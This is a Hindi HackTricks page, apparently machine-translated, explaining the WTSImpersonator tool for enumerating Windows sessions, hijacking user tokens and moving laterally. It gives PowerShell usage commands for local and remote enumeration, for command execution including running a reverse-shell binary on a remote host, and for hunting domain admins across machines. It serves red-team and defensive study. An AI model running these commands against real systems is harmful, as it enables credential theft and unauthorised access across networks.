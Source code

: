 <details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

दूसरे तरीके HackTricks का समर्थन करने के लिए:

* अगर आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **मुझे** **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** पर फॉलो** करें।
* **अपने हैकिंग ट्रिक्स साझा करें, PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

**WTS Impersonator** टूल **"\\pipe\LSM_API_service"** RPC नेम्ड पाइप का शोषण करता है ताकि लॉग-इन उपयोगकर्ताओं को गुप्त रूप से गणना कर सके और उनके टोकन को हाइजैक कर सके, पारंपरिक टोकन अनुकरण तकनीकों को छलकर बाहर करते हुए। यह तकनीक नेटवर्क के भीतर अद्भुत लैटरल चलनों को सुविधाजनक बनाती है। इस तकनीक के पीछे इस तकनीक के आविष्कारक **Omri Baso** को स्वर्णित किया जाता है, जिनका काम [GitHub](https://github.com/OmriBaso/WTSImpersonator) पर उपलब्ध है।

### मूल कार्यक्षमता
यह टूल एपीआई कॉल के एक क्रम के माध्यम से काम करता है:
```powershell
WTSEnumerateSessionsA → WTSQuerySessionInformationA → WTSQueryUserToken → CreateProcessAsUserW
```
### कुंजी मॉड्यूल और उपयोग
- **उपयोक्ताओं की जांच करना**: उपकरण के साथ स्थानीय और दूरस्थ उपयोक्ता जांच संभव है, किसी भी स्थिति के लिए आदेश का उपयोग करके:
- स्थानीय रूप से:
```powershell
.\WTSImpersonator.exe -m enum
```
- दूरस्थ, IP पता या होस्टनाम को निर्दिष्ट करके:
```powershell
.\WTSImpersonator.exe -m enum -s 192.168.40.131
```

- **आदेशों को निष्पादित करना**: `exec` और `exec-remote` मॉड्यूल को कार्य करने के लिए एक **सेवा** संदर्भ की आवश्यकता होती है। स्थानीय निष्पादन केवल WTSImpersonator एक्जीक्यूटेबल और एक आदेश की आवश्यकता होती है:
- स्थानीय आदेश निष्पादन के लिए उदाहरण:
```powershell
.\WTSImpersonator.exe -m exec -s 3 -c C:\Windows\System32\cmd.exe
```
- सेवा संदर्भ प्राप्त करने के लिए PsExec64.exe का उपयोग किया जा सकता है:
```powershell
.\PsExec64.exe -accepteula -s cmd.exe
```

- **दूरस्थ आदेश निष्पादन**: PsExec.exe के समान दूरस्थ रूप से एक सेवा बनाना और स्थापित करना, जिससे उचित अनुमतियों के साथ निष्पादन संभव हो।
- दूरस्थ निष्पादन का उदाहरण:
```powershell
.\WTSImpersonator.exe -m exec-remote -s 192.168.40.129 -c .\SimpleReverseShellExample.exe -sp .\WTSService.exe -id 2
```

- **उपयोक्ता हंटिंग मॉड्यूल**: कई मशीनों पर विशिष्ट उपयोक्ताओं को लक्ष्य बनाना, उनके परमिशन के तहत कोड निष्पादित करना। यह विशेष रूप से उसके लिए उपयोक्ता डोमेन व्यवस्थापकों को लक्ष्य बनाने के लिए उपयुक्त है जिनके पास कई सिस्टमों पर स्थानीय व्यवस्थापक अधिकार हैं।
- उपयोग का उदाहरण:
```powershell
.\WTSImpersonator.exe -m user-hunter -uh DOMAIN/USER -ipl .\IPsList.txt -c .\ExeToExecute.exe -sp .\WTServiceBinary.exe
```
